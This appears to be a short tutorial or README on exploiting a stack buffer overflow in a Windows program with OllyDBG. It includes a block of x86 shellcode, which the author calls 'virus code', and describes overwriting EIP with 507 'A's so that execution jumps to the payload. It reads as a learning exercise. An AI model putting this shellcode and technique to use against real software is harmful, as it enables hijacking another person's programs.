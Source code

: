 The following bytes are virus code that I have created. It is not malicious. Trust me. I made it myself.

```
\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7
```



## Attempt 1 

In OllyDBG I run the application and set the command line parameter to 507 "A"s. 

You set command line arguments by going to Debug -> Arguments.



The program crashes. Notice EBP has been overwritten and EIP was partially overwritten. (it is 00414142 because it tried to execute 00414141 then incremented EIP to go to the next instruction)

We can try to overwrite EIP with exactly the memory location of our input string. If we can do that then we can replace our 'A's with virus code.

![Crash Registers](images/crash_registers.png)
